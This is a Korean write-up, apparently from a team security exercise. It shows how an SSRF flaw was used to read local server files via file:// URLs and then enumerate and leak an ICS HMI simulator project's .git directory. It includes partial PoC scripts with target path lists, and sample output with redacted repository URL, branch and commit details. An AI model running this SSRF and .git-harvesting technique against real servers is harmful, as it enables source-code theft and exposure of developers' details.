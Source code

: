 ## SSRF 취약점을 이용한 .git 디렉토리 정보 탈취 시나리오

본 문서는 SSRF(Server-Side Request Forgery) 취약점을 이용해 서버 내부 파일에 접근(LFI, Local File Inclusion)하고, 최종적으로 웹 애플리케이션의 `.git` 디렉토리 정보를 탈취하여 소스코드를 유출하는 공격 과정을 설명합니다.

공격은 두 단계로 나누어 진행됩니다.

1.  **정찰 단계**: `poc.py`를 이용해 서버의 파일 시스템 구조를 탐색하고 `.git` 디렉토리의 정확한 위치를 파악합니다.
2.  **정보 탈취 단계**: `poc_git.py`를 이용해 발견된 `.git` 디렉토리 내부의 주요 파일들을 체계적으로 조회하여 민감 정보를 탈취합니다.

---

### 1단계: 정찰 및 .git 디렉토리 탐색 (`poc.py`)

첫 번째 단계는 SSRF 취약점을 통해 서버의 어느 경로에 웹 애플리케이션이 배포되었는지, 그리고 `.git` 디렉토리가 존재하는지 확인하는 것입니다. 이를 위해 아래의 `poc.py` 코드를 사용했습니다. 이 코드는 `/home` 부터 시작하여 예상 가능한 주요 경로들을 순차적으로 조회합니다.

#### 실행 코드: `poc.py`

```python
import requests
from bs4 import BeautifulSoup
import urllib3
import sys
import os

sys.path.append(os.path.abspath(os.path.join(os.path.dirname(__file__), '..')))

from config import TARGET_URL

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# 파일 경로 리스트 (민감 정보 위주)
paths = [
    "/home",
    "/home/bteam",
    "/home/bteam/Desktop/",
    "/home/bteam/Desktop/_CPSS_ICS_Server/",
    "/home/bteam/Desktop/_CPSS_ICS_Server/ics-hmi-simulator/",
    "/home/bteam/Desktop/_CPSS_ICS_Server/ics-hmi-simulator/app/",
    "/home/bteam/Desktop/_CPSS_ICS_Server/ics-hmi-simulator/app/routes.py",
    "/home/bteam/Desktop/_CPSS_ICS_Server/ics-hmi-simulator/app/__init__.py"
]

# (이하 요청 및 파싱 코드 생략)
```

#### 실행 결과 및 분석

위 코드 실행 결과, `/home/bteam/Desktop/_CPSS_ICS_Server/` 경로에서 `.git` 디렉토리가 노출된 것을 확인했습니다. 이를 통해 공격 대상의 정확한 위치를 특정할 수 있었습니다.

```text
[+] 요청 중: file:///home/bteam/Desktop/_CPSS_ICS_Server/
[✔] /home/bteam/Desktop/_CPSS_ICS_Server/ 내용 일부:
Index of /home/bteam/Desktop/_CPSS_ICS_Server/
[parent directory]
Name                    Size  Date Modified
.git/                   ...   ...
ics-hmi-simulator/      ...   ...
README.md               ...   ...
```

---

### 2단계: .git 내부 민감 정보 탈취 (`poc_git.py`)

`.git` 디렉토리의 위치를 확인한 후, 내부의 상세 정보를 탈취하기 위해 아래와 같이 `poc_git.py`를 작성했습니다. 이 코드는 1단계에서 알아낸 경로를 기반으로 `.git` 내부에 존재하는 주요 설정 파일, 로그, 브랜치 정보 등을 체계적으로 조회합니다.

#### 실행 코드: `poc_git.py`

```python
import requests
from bs4 import BeautifulSoup
import urllib3
import sys
import os

sys.path.append(os.path.abspath(os.path.join(os.path.dirname(__file__), '..')))

from config import TARGET_URL

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# 대상 서버에 존재하는 .git 디렉토리의 기본 경로
GIT_BASE_PATH = "/home/bteam/Desktop/_CPSS_ICS_Server/.git"

# .git 디렉토리 내에서 확인할 파일 및 하위 디렉토리의 포괄적인 목록
paths_to_check = [
    "", "/HEAD", "/config", "/index", "/description", "/COMMIT_EDITMSG",
    "/FETCH_HEAD", "/ORIG_HEAD", "/packed-refs", "/hooks", "/info",
    "/info/exclude", "/branches", "/logs/", "/logs/HEAD",
    "/logs/refs/heads/main", "/logs/refs/heads/master", "/refs/",
    "/refs/heads/", "/refs/heads/main", "/refs/heads/master",
    "/refs/tags/", "/refs/remotes/", "/objects/", "/objects/info/",
    "/objects/info/packs", "/objects/pack/"
]

# (이하 요청 및 파싱 코드 생략)
```

#### 실행 결과 및 분석 (주요 정보 요약)

`poc_git.py` 실행 결과, 다음과 같은 민감 정보들을 획득할 수 있었습니다. (개인정보는 `[REDACTED]` 처리)

-   **저장소 설정 (`.git/config`)**: 원격 저장소의 전체 URL을 확보하여 소스코드 관리 지점을 파악했습니다.
    ```
    [remote "origin"]
     url = https://github.com/[REDACTED]/_CPSS_ICS_Server.git
    ```
-   **브랜치 정보 (`.git/FETCH_HEAD`)**: `Donghyun`, `Jinseop` 등 팀원들의 실명이 포함된 브랜치 목록을 확인했습니다.
    ```
    ...
    7fe80... not-for-merge branch '[REDACTED_BRANCH_1]' of ...
    b41a6... not-for-merge branch '[REDACTED_BRANCH_2]' of ...
    ```
-   **커밋 로그 (`.git/logs/HEAD`)**: `bteam`, `root` 등 서버 계정 이름과 전체 커밋 이력을 확보하여 어떤 사용자가 어떤 작업을 했는지 시간대별로 파악할 수 있었습니다.
    ```
    ...
    de715... e6cf4... [USER] 1751899981 +0900 pull: Fast-forward
    e6cf4... 97f28... [USER] 1751900172 +0900 pull: Fast-forward
    ```
-   **Pack 파일 (`.git/objects/pack/`)**: Git 객체들이 압축된 pack 파일의 목록을 확인했습니다. 이 파일들을 모두 다운로드하면 저장소의 전체 소스코드를 복원하는 것이 가능합니다.

이러한 정보들은 소스코드 유출뿐만 아니라, 개발자 정보, 프로젝트 관리 방식 등 추가적인 공격의 실마리가 될 수 있는 매우 심각한 정보 유출입니다.
